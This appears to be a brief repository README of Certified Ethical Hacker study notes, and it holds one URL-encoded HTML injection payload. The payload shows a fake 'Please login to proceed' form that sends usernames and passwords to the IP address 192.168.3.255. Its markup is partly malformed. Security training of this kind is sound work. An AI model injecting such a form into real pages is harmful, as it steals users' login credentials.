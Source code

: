 # temp
temp for ceh

<h3>Please%20login%20to%20proceed</h3>%20<from%20action=http:192.168.3.255>Username:<br>%20<input%20type="username"%20name="username">%20</br>Password:<br><input%20type="password"%20name="password"></br>%20<br><input%20type="submit"%20value="Login"></br>
